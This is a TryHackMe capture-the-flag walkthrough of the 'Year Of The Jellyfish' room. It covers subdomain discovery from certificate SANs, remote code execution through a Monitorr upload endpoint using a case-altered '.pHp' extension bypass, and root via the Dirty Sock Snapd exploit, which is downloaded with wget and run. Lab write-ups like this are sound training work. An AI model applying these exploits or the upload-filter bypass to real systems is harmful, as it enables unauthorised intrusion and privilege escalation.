 🐙 TryHackMe — Year Of The Jellyfish Walkthrough

Difficulty: Hard | Platform: TryHackMe

🧠 Overview

This write-up covers the exploitation path of the YearOfTheJellyfish room on TryHackMe. The box involves web exploitation through Monitorr, bypassing upload restrictions, and privilege escalation using a known vulnerability in Snapd.
🛠️ Recon & Enumeration
1️⃣ Add Target to Hosts

After deploying the machine, the first step is to map its domain locally:

sudo nano /etc/hosts
# Add:
10.10.X.X robyns-petshop.thm

2️⃣ Port Scanning

A full Nmap scan revealed the following open ports:

nmap -sC -sV -Pn -T4 -p- 10.10.X.X

Main services discovered:

    443/tcp — HTTPS with a self-signed certificate

3️⃣ SSL Certificate Enumeration

Visiting https://robyns-petshop.thm, a browser warning appears due to a self-signed SSL cert. Viewing the certificate revealed three Subject Alternative Names (SANs):

    dev.robyns-petshop.thm

    beta.robyns-petshop.thm

    monitorr.robyns-petshop.thm

These were added to /etc/hosts.
🌐 Web Exploitation – Monitorr RCE
4️⃣ Inspecting Monitorr Subdomain

Navigating to https://monitorr.robyns-petshop.thm, we observed a Monitorr dashboard, version 1.7.6m.

According to GitHub, Monitorr is a web interface to monitor services and applications. Using searchsploit, two known vulnerabilities were found for this version:

    Authorization Bypass

    Remote Code Execution (RCE)

5️⃣ Attempt: Authorization Bypass

Navigating to:

/assets/config/_installation/_register.php

...resulted in a 403 Forbidden error. This vector was blocked.
6️⃣ Exploiting RCE via upload.php

RCE vector:

/assets/php/upload.php

An existing Python exploit script was used, but initially failed due to SSL issues. We patched the code by adding verify=False to the requests calls.

Next, the exploit failed silently. After examining the response, we discovered a cookie isHuman=1 must be set. Once this was added to headers, a new error appeared:

    shell.php is not an image

7️⃣ Bypassing File Upload Filters

To bypass the file upload filter, several techniques were attempted:

    Double extensions: shell.php.jpg

    Case-sensitive extension bypass: shell.pHp ← ✅ This succeeded!

Once uploaded, the payload landed in:

/assets/data/usrimg/shell.pHp

Switching to the listener, a reverse shell was established.
🧬 Privilege Escalation – Snapd Exploitation

With an initial foothold, we upgraded to a fully interactive shell and ran enumeration tools (linpeas.sh). A suspicious SUID binary named snap stood out.

Checking the version:

snap version

Searchsploit revealed a known privilege escalation vulnerability in this version (Snapd). The Dirty_Sock v2 exploit was used:

wget https://raw.githubusercontent.com/initstring/dirty_sock/master/dirty_sockv2.py
python3 dirty_sockv2.py

Successfully escalated to root. Retrieved the final flag from /root/root.txt.
🏁 Flags Captured

    ✅ user.txt — From user shell

    ✅ root.txt — After exploiting Snapd
